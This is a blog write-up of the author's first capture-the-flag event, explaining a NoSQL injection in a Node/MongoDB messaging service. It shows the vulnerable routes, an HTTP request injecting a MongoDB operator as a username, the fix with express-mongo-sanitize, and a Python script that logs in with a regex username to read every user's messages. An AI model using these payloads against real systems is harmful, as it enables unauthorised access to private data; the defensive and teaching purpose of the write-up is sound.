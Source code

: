 ```yaml
---
layout: post
title: "Report of the BambiCTF of ENOFLAG"
date: 2021-04-17 20:42:39 +0000
categories: [blog]
tags: [ctf]
---
```


This was my first CTF and I will try to explain a vulnerability I fixed and exploited. 

<!--more-->

## Setup 

During the CTF I [connected to the server with VSCode](https://code.visualstudio.com/docs/remote/ssh), which meant I had instant access to all files and could edit them without changing between multiple ssh windows with `nano` editors.

Also the extensions: 
 - [Docker](https://marketplace.visualstudio.com/items?itemName=ms-azuretools.vscode-docker):
   For always having an eye on your services, easy access to logs and one-click terminals to your containers. 
 - [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client):
   For writing simple HTTP Requests in a file format. (see below)
 - [Python](https://marketplace.visualstudio.com/items?itemName=ms-python.python)
   For writing the exploit in a simple jupyter notebook. 

allowed for a hassle free search for vulnerabilities

## Stonksexchange Vulnerability

[Here you can find the vulnerable service to try for yourself.](https://github.com/ldruschk/bambi-service-stonksexchange). 

The service is a simple node application which allows exchange of messages for registered/loggedin users: 

![image](https://user-images.githubusercontent.com/13590797/115123614-2d724c00-9fbe-11eb-8a9b-abe2db800a7d.png)

First I tried a simple XSS attack but was unsuccessful. Then it came to my mind that it might be some kind of injection attack as the service had a database.
After having a look at the files I noticed that user input was passed to the database without sanitizing it: 
```javascript
// /routes/index.js
router.post('/register', function (req, res, next) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /*
   * Notice the findOne() function below which 
   * gets the data directly from the request body
   */
  db.collection('users').findOne({ 'username': req.body.username }).then(results => {
    if (results) {
      res.status(400).send('Username already in use');
      return;
    }
    argon2.hash(req.body.password).then(hash => {
      db.collection('users').insertOne({ 'username': req.body.username, 'password': hash }).then(results => {
        req.session.user = req.body.username;
        res.redirect('/');
      });
    });
  });
});
```

Trying the Endpoint directly confirms the suspicion. [MongoDB Operators](https://docs.mongodb.com/manual/reference/operator/query/) are directly executable.
```HTTP
# This Request always returns "Username already in use" because the query "{"$ne": null}" returns the first user 
# which names is not null (which is always the first user). 
POST http://localhost:8199/register HTTP/1.1
content-type: application/json

{
  "username": {"$ne": null},
  "password": "$#@Call4Code"
}
```

This holds true for multiple functions and googling the words [`mongodb` `findOne`, `vulnerability`](https://www.google.com/search?q=mongodb+findone+vulnerability) leads to possible NoSQL injections. 
So how to fix it? - [Stackoverflow is your friend](https://stackoverflow.com/questions/30585213/do-i-need-to-sanitize-user-input-before-inserting-in-mongodb-mongodbnode-js-co). 
I didn't use the package recommended there, but instead used [express-mongo-sanitize](https://www.npmjs.com/package/express-mongo-sanitize). Installing it and adding the following two lines fixed the problem. 

```javascript
// app.js

/**
  * Adding the following line to load the sanitizer
  */
const mongoSanitize = require('express-mongo-sanitize');

// ...

app.use(logger('dev'));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

/**
  * Use the sanitizer.
  */
app.use(mongoSanitize());
app.use(cookieParser());
```

Trying the endpoints again leads to a new user `{"$ne": null}`. :)


## Stonksexchange Exploit

Now that we know that the endpoints `/register`, `/login` and `/messages` are vulnerable we have to look for the flags.
> Notice that you won't have any flags locally because there is no server putting them there! 

Looking into the database we can see messages with flags. But how to retrieve them?

![image](https://user-images.githubusercontent.com/13590797/115124821-952b9580-9fc4-11eb-8d4c-b5b1a75ed2ca.png)

Having a look at the `/messages` endpoint we can see that `req.session.user` is used without sanitizing it, which means if we can put an Operator like `{"$regex": "."}` there (which matches any character and thus any user), we can retrieve the first 50 messages of the database. 
```javascript
router.get('/messages', function (req, res, next) {
  if (!req.session.user) {
    res.status(403).send('Not logged in');
    return;
  }
  var db = req.app.locals.db;
  /**
    * Notice that req.session.user is passed without sanitizing it
    */
  db.collection('messages').find({ 'username': req.session.user }, { 'sort': { '$natural': -1 } }).limit(50).toArray((err, results) => {
    if (err) {
      res.status(500).send('Internal server error');
      return;
    }
    res.locals.messages = results;
    res.render('messages', { title: 'Messages' });
  });
});
```

Because `user` is read from the `session` we have to "login" with the query we want to execute first. 

```javascript
router.post('/login', function (req, res) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /**
    * The first user matching the username is returned, 
    * if the username is a query like {"$regex": "."} we have to consider the sort function.
    */
  db.collection('users').findOne({ 'username': req.body.username }, { 'sort': { '$natural': -1 } }).then(results => {
    if (!results) {
      res.status(400).send('Invalid username or password');
      return;
    }
    argon2.verify(results.password, req.body.password).then(result => {
      if (!result) {
        res.status(400).send('Invalid username or password');
        return;
      }
      req.session.user = req.body.username;
      res.redirect('/');
    });
  });
});
```

Viewing the `/login` enpoint we can see that the first user matching the query will be returned. As we want the username to be `{"$regex": "."}` we have to consider the ([natural](https://docs.mongodb.com/v4.2/reference/glossary/#term-natural-order)) sort order. 

![image](https://user-images.githubusercontent.com/13590797/115125463-7d561080-9fc8-11eb-84fe-eb8049f2791f.png)

In this case `findOne` will always return the last created user. For a successful login we have to know the password of the user. What better way to just create one?

Lets put it together in a python script:

```python
import requests
base = "http://localhost:8199"

# Prepare the exploit by creating a user with a password we know
prepare = requests.Session()
register = prepare.post(base + '/register', json={ 'username': "sdfsdf", "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Create the exploit Session
exploit = requests.Session()
# Login with the query we want to execute
register = exploit.post(base + '/login', json={ 'username': {"$regex": "."}, "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Get all messages
messages = exploit.get(base + "/messages")
print(messages.content)
```

> During the CTF new users where created from other people exploiting the service, which meant that in order to login with all matching regex a new user had to be created each time. 

Thanks to [Enoflag](http://enoflagg.de/) for hosting this event!
